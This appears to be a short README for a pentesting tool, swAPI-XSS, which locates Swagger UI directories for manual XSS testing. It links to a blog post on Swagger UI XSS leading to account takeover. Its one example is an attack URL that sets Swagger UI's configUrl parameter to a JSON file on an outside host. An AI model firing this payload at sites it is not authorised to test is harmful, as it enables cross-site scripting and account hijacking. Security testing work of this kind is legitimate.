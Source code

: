 #### swAPI-XSS to find swagger api directories and test manually for potential XSS vulnerability

##### Example:
#####  https://www.target.com/swagger-ui/index.html?configUrl=https://jumpy-floor.surge.sh/test.json

[Click here to read about the swagger API XSS](https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/)
